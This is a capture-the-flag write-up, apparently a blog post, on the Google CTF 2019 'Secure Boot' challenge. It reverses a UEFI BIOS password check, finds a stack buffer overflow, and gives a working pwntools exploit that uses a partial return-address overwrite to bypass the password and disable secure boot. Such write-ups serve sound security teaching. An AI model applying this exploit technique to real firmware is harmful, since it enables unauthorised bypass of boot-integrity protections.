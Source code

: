 ```yaml
---
layout: post
category: Pwn
title: Google CTF Quals 2019 - Secure Boot
tags: 
    - kowu
---
```


# Challenge overwiew

A x86\_64 qemu challenge. However, this time it is about getting it to boot up...

```
.
├── contents
│   ├── boot.nsh
│   ├── bzImage
│   ├── rootfs.cpio.gz
│   └── startup.nsh
├── OVMF.fd
└── run.py
```

Running the challenge and doing nothing gives us the following output:

```
UEFI Interactive Shell v2.2
EDK II
UEFI v2.70 (EDK II, 0x00010000)
Mapping table
      FS0: Alias(s):HD1a1:;BLK3:
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)/HD(1,MBR,0xBE1AFDFA,0x3F,0xFBFC1)
     BLK0: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x0)/Floppy(0x0)
     BLK1: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x0)/Floppy(0x1)
     BLK2: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)
     BLK4: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)

If Secure Boot is enabled it will verify kernel's integrity and
return 'Security Violation' in case of inconsistency.
Booting...
Script Error Status: Security Violation (line number 5)
```

And execution stops. However, if we enter the "BIOS" by hitting `del` or `F12` we are greeted with the following:

```
BdsDxe: loading Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
BdsDxe: starting Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
****************************
*                          *
*   Welcome to the BIOS!   *
*                          *
****************************

Password?
```

This is where the challenge starts.

# Pre-Reversing

First of all, I modified the run.py script and added the `-s` option to qemu (-s ia a shorthand to wait for gdb connections on port 1234). I also removed the `console=/dev/null` as I want to use the console later on.

Now we can run the challenge until we get to the password input prompt. Once reached, we attach radare2 to it with `r2 -D gdb gdb://localhost:1234`. Radare will stop the execution. As the program is expecting input from us, we are probably currently in some kind of input routine. A backtrace should lead us to the calling functions.

Printing a backtrace reveals the following:

```
:> dbt
0  0x7b30a41          sp: 0x0                 0    [??]  rip r13+8403169
1  0x7ec22c9          sp: 0x7ec16c8           32   [??]  rsp+3105 
2  0x7ec5f50          sp: 0x7ec1728           96   [??]  rsp+18600 
3  0x7ed2fe7          sp: 0x7ec1758           48   [??]  rsp+71999 
4  0x7ed30c9          sp: 0x7ec1778           32   [??]  rsp+72225 
5  0x67daf5e          sp: 0x7ec17c8           80   [??]  cr3+108896862 
6  0x7b90612          sp: 0x7ec1828           96   [??]  rip+392145 
7  0x67d4d34          sp: 0x7ec18b8           144  [??]  cr3+108871732 
8  0x7ec5f50          sp: 0x7ec18f8           64   [??]  rsp+18600 
9  0x7ec8317          sp: 0x7ec1958           96   [??]  rsp+27759 
10  0x7a7e577          sp: 0x7ec1a28           208  [??]  r13+7672855 
```

I now went through all the call frames and looked for something interesting (in search for some main loop).
At frame 5 I noticed the use of `0xdeadbeefdeadbeef` (suspicious). Frame 7 checks a functions result and, depending on the output, calls another function with the string "Blocked". Therefore I assumed `0x67dae50` to be our password check routine we are interested in.

```
0x067d4d2f      e81c610000     call 0x67dae50              ;[1]
0x067d4d34      84c0           test al, al
0x067d4d36      7511           jne 0x67d4d49
0x067d4d38      488d0d1fa100.  lea rcx, [0x067dee5e]       ; u"\nBlocked!\n"
0x067d4d3f      e8b976ffff     call 0x67cc3fd
```

To confirm this, I placed a breakpoint on the `test al, al` instruction (`db 0x67d4d34`) and, once the breakpoint was hit, manually modified the return value from zero to one (`dr rax=1`).
Continuing execution (`dc`) results in a BIOS menu where I could turn off secure boot and initiate a reboot with the new BIOS settings. As a result, the system would start up normally.

# Reversing

As I identified the password input routine, it's time for reversing (using IDA). First, I dumped the whole guest memory via the qemu monitor (press `ctrl+a` then `c` and dump using `dump-guest-memory`).
We get some decompiled and cleaned up pseudocode like this (left some details away for simplicity):

```c
int checkpasswd() {
    uint64_t *hashptr;
    char keybuffer[128];

    hashptr = malloc(32);
    for (int tries=0; tries <= 2; tries++) {
        int i=0;
        for(; i<140; i++) {
            char c = getc();
            if (c == '\r')
                break;
            keybuffer[i] = c;
            print("*");
        }
        keybuffer[i] = '\0';
        /* assumed because of magic constants */
        sha256(32, i, keybuffer, hashptr); 
        if (hashptr[0x00] == 0xdeadbeefdeadbeef &&
            hashptr[0x08] == 0xdeadbeefdeadbeef &&
            hashptr[0x10] == 0xdeadbeefdeadbeef &&
            hashptr[0x18] == 0xdeadbeefdeadbeef)
            return 1;
        print("wrong!");
    }
    return 0;
}
```

So a classic stack based overflow (128B space vs. 141B usage). We overflow into the hashptr and therefore control where the 32 Bytes of resulting hash are written to. We can use this to bypass the login password check by partially overwriting our own return address.
So instead of returning to `0x67d4d34` we want to return to `0x67d4d49`, i.e. we need to change the first byte from `0x34` to `0x49`. The return address is located at `0x7ec18b8`, therefore we need to modify the hashptr to point to `0x7ec18b8 - 0x20 + 1 = 0x7ec1899`.
The payload for this looks like this:

```python
pl = "A" * 136 + struct.pack('<I', 0x07ec1899)
```

To overwrite the first byte of the return address with controlled data, one can bruteforce possible sha256 hashes.
During the ctf due to lazyness I just manually incremented the first char, as the possibility is > 1/256 to hit a valid bypass :)
I got a working payload quite fast this way.

```python
pl = "E" + "A" * 135 + struct.pack('<I', 0x07ec1899)
```

# Launching

We now have everything together to launch the exploit against the remote target.
The del keycode (0x7f) needs to be escaped (0x1b) and we need to wait some time before we can send it (therefore the recvn(1)).

```python
from pwn import *

r = remote('secureboot.ctfcompetition.com', 1337)

if __name__ == '__main__':
    r.recvn(1)
    r.send('\x1b\x7f')
    r.recvuntil('Password?')
    pl = "E" + "A" * 135 + struct.pack('<I', 0x07ec1899)
    r.send(pl + '\x0d')
    r.interactive()
```
launching with socat:
```
socat /dev/stdin,rawer "SYSTEM:python2 secureboot.py"
```
This will drop us into the BIOS options. There we need to deselect `Device Manager` -> `Secure Boot Configuration` -> `Attempt Secure Boot`. A reboot will start the machine and allows us to cat the flag.
